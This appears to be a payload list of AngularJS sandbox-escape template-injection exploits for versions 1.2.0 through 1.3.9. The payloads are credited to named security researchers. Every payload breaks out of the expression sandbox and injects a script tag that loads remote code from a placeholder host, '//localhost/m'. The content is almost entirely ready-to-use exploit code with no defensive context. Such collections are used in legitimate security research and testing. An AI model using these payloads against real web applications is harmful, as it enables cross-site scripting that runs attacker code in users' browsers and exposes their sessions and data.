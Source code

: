 1.2.0 - 1.2.5 by Gareth Heyes (PortSwigger)

```javascript
{{
    a="a"["constructor"].prototype;a.charAt=a.trim;
    $eval('a",eval(`var _=document\\x2ecreateElement(\'script\');
    _\\x2esrc=\'//localhost/m\';
    document\\x2ebody\\x2eappendChild(_);`),"')
}}
```

1.2.6 - 1.2.18 by Jan Horn (Cure53, now works at Google Project Zero)

```javascript
{{
    (_=''.sub).call.call({}[$='constructor'].getOwnPropertyDescriptor(_.__proto__,$).value,0,'eval("
        var _ = document.createElement(\'script\');
        _.src=\'//localhost/m\';
        document.getElementsByTagName(\'body\')[0].appendChild(_)")')()
}}
```

1.2.19 (FireFox) by Mathias Karlsson

```javascript
{{
    toString.constructor.prototype.toString=toString.constructor.prototype.call;
    ["a",'eval("var _ = document.createElement(\'script\');
    _.src=\'//localhost/m\';
    document.getElementsByTagName(\'body\')[0].appendChild(_)")'].sort(toString.constructor);
}}
```

1.2.20 - 1.2.29 by Gareth Heyes (PortSwigger)

```javascript
{{
    a="a"["constructor"].prototype;a.charAt=a.trim;
    $eval('a",eval(`
    var _=document\\x2ecreateElement(\'script\');
    _\\x2esrc=\'//localhost/m\';
    document\\x2ebody\\x2eappendChild(_);`),"')
}}
```

1.3.0 - 1.3.9 by Gareth Heyes (PortSwigger)

```javascript
{{
    a=toString().constructor.prototype;a.charAt=a.trim;
    $eval('a,eval(`
    var _=document\\x2ecreateElement(\'script\');
    _\\x2esrc=\'//localhost/m\';
    document\\x2ebody\\x2eappendChild(_);`),a')
}}
```
